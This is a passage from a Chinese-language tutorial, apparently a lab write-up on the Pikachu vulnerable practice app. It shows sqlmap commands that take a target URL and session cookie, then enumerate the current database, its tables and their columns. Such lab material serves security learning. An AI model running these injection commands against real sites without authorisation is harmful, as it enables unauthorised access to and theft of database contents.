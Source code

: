 <img src="/images/解决2.jpg" width="130%" height="120%"/>
随后在sqlmap上再次输入命令：
python sqlmap.py -u "这里输入你复制的URL" --cookie="这里输入先前复制下来的cookie"--batch
即可得到其构造好的payload
如果想要得到其数据库名称，则可以使用下面的命令：
python sqlmap.py -u "URL" --current-db
然后在出现选项后选择Y，之后就出现了当前数据库的名称,就是下图中current database的内容，我们可以知道当前名称是pikachu：
<img src="/images/sqlmap2.jpg" width="130%" height="120%"/>
如果想要获取数据库内表的名称，命令是：
python sqlmap.py -u "URL" -D 数据库名称--tables
得到如下内容：
<img src="/images/sqlmap3.jpg" width="130%" height="120%"/>
同理，想要拿到表里的列名，输入以下命令：
python sqlmap.py -u "URL" -D 数据库名称 -T 数据库中你想查询表的名称 --columns